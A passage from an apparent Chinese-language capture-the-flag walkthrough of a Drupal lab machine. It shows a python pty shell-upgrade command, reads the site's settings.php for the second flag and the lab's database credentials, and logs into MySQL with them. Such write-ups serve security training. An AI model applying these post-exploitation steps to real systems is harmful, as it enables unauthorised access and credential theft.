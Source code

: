 使用python反弹交互式shell

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210311105247604](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311105247604.png)

drupal的配置文件是 /sites/default/settings.php ，是数据库连接配置文件。

![image-20210311105925462](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311105925462.png)

```text
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

我们在这里得到了第二个flag，以及数据库的用户名和密码

登陆mysql数据库

```text
mysql -u dbuser -p
```

用户名及密码

```text
username => dbuser
password => R0ck3t
```

![image-20210311110423821](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311110423821.png)

查看数据库

```text
show databases;
```
